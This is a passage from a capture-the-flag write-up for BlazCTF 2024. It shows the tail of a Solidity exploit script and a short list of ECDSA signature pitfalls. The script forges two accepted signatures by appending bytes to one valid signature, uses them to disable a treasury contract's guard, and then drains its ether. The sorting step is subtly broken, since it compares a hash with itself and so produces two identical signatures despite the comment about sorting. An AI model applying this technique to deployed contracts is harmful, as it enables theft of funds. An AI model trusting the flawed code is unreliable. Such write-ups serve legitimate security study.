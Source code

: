```C
        });

        // Step 2
        // Generate a valid signature using the player's private key,
        // then create two signatures by appending random data to the valid one.
        // Sort the signature hashes to ensure they are in increasing order.
        bytes32 digest = hashProposal(proposal);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, digest);
        bytes memory sig = abi.encodePacked(r, s, v);
        bytes memory sig0 = abi.encodePacked(sig, "0");
        bytes memory sig1 = abi.encodePacked(sig, "1");

        bytes[] memory signatures = new bytes[](2);
        signatures[0] = uint256(keccak256(sig0)) < uint256(keccak256(sig0)) ? sig0 : sig1;
        signatures[1] = uint256(keccak256(sig0)) < uint256(keccak256(sig0)) ? sig0 : sig1;

        // Step 3
        // Call the `BodyGuard::propose` function and pass the parameters obtained from the previous steps.
        bodyGuard.propose(proposal, signatures);

        // Step 4
        // With `CartelTreasury::bodyGuard` now set to the zero address,
        // we can bypass the `guard` modifier and call `CartelTreasury::doom` to drain all the ether stored in the contract.
        cartel.doom();

        vm.stopBroadcast();
    }

    function hashProposal(BodyGuard.Proposal memory proposal) public view returns (bytes32) {
        return keccak256(
            abi.encodePacked(proposal.expiredAt, proposal.gas, proposal.data, proposal.nonce, treasury, DIGEST_SEED)
        );
    }
}
```
Now we've drained all the ether from the `cartel`. Well done! We've successfully solved a challenge in BlazCTF 2024!

### Closing

When using `ECDSA` signatures, several security concerns should be considered, including:

1. Signature replay attacks when signatures are not properly tracked or invalidated after use: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplayNBA.sol
2. Signature replay due to the absence of a nonce value: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/SignatureReplay.sol
3. Signature replay across multiple chains if the chain ID is not included in the message hash: https://www.quicknode.com/guides/ethereum-development/smart-contracts/what-are-replay-attacks-on-ethereum
4. The ecrecover function returning a zero address on failure: https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ecrecover.sol


Thank you for reading!



